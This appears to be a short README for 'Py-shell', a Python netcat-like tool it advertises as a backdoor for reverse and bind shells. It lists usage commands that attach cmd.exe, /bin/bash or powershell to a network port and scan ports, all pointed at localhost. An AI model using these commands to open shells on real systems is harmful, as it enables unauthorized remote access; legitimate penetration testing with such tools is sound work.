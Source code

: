 ## Py-shell - The best python backdoor shell in the world.

We can absolutely sure this is the best PYTHON SHELL in the 
world until now. You can try it now.

Python netcat for reverse or bind shell. Py-shell is a custom 
network tool to create backdoor shell (pentesting) and some 
other network purpose like connection testing or remote command 
excution (for who want to help others remotely).

Usage:

**python3 pyshell.py -l -p [PORT] -e [FILENAME]**

**python3 pyshell.py -t [ADDRESS] -p [PORT] -e [FILENAME]**

****
Example usage:


*python3 pyshell.py -l -p 4444 -v*

*python3 pyshell.py -t 127.0.0.1 -p 4444*

*python3 pyshell.py -l -p 8080 -e cmd.exe*

*python3 pyshell.py -t 127.0.0.1 -p 8080 -e /bin/bash*

*python3 pyshell.py -l -p 5000 -e powershell*

*python3 pyshell.py -t 127.0.0.1 -p 8000-8081 -z*



Created by toidihack(hacking at HackerOne and Bugcrowd)
 
